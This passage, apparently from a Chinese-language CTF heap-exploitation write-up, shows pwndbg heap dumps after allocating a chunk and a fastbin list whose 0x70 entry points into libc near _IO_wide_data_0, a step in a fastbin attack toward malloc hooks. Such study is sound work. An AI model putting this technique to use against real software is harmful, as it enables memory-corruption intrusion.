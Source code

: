 ```python
empty
largebins
empty
pwndbg>
```

开始申请第一个chunk：

```python
create(0x60) #5 = 2
```

```python
pwndbg> x/70gx 0x555555757000
------------------------------------------------------------------------
0x555555757000: 0x0000000000000000  0x0000000000000021 #index0
0x555555757010: 0x6161616161616161  0x6161616161616161
------------------------------------------------------------------------
0x555555757020: 0x6161616161616161  0x0000000000000071 #index1
0x555555757030: 0x0000000000000000  0x0000000000000000
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757090:	0x0000000000000000	0x0000000000000071 #index2:malloc（index5：malloc)
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757100: 0x0000000000000000  0x0000000000000071 #index3
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757170: 0x0000000000000000  0x0000000000000071 #index4
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x5555557571e0: 0x0000000000000000  0x0000000000020e21 #top_chunk
......(省略数据的内容均为空)
0x555555757220: 0x0000000000000000  0x0000000000000000
------------------------------------------------------------------------
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x7ffff7dd1aed (_IO_wide_data_0+301) ◂— 0x7f
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg>
```
